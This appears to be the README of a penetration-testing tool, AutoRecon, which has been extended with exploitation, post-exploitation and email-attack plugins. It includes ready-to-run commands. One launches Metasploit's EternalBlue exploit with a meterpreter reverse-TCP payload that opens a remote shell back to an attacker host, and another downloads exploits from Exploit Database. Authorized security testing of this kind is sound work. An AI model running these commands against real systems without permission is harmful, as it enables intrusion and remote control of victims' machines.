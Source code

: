 # AutoRecon Attack Capabilities

This document describes the attack capabilities that have been added to AutoRecon, transforming it from a reconnaissance tool into a comprehensive penetration testing framework.

## ⚠️ IMPORTANT WARNING

**These attack capabilities are for authorized testing only. Only use on systems you own or have explicit permission to test. Unauthorized use of these tools may be illegal and could result in criminal charges.**

## Overview

The enhanced AutoRecon includes four new plugin types that extend beyond reconnaissance:

1. **ExploitScan** - Vulnerability exploitation plugins
2. **AttackScan** - Active attack capabilities  
3. **PostExploit** - Post-exploitation activities
4. **EmailScan** - Email-based attacks

## Enabling Attack Mode

Attack capabilities must be explicitly enabled:

```bash
# Enable attack mode (shows warnings)
autorecon --enable-attack-mode <target>

# List available attack plugins
autorecon --enable-attack-mode --list attack
autorecon --enable-attack-mode --list exploit
autorecon --enable-attack-mode --list postexploit
autorecon --enable-attack-mode --list email
```

## Attack Plugin Types

### ExploitScan Plugins

These plugins perform vulnerability exploitation using frameworks like Metasploit.

**Available Plugins:**
- `metasploit-exploit` - Automated Metasploit exploitation
- `exploitdb-search` - Search and download exploits from Exploit Database

**Example Usage:**
```bash
# Metasploit exploitation
autorecon --enable-attack-mode \
  --exploit-scans metasploit-exploit \
  --metasploit-exploit.module exploit/windows/smb/ms17_010_eternalblue \
  --metasploit-exploit.lhost 192.168.1.10 \
  --metasploit-exploit.payload windows/meterpreter/reverse_tcp \
  192.168.1.100

# Exploit database search
autorecon --enable-attack-mode \
  --exploit-scans exploitdb-search \
  --exploitdb-search.download-exploits \
  192.168.1.100
```
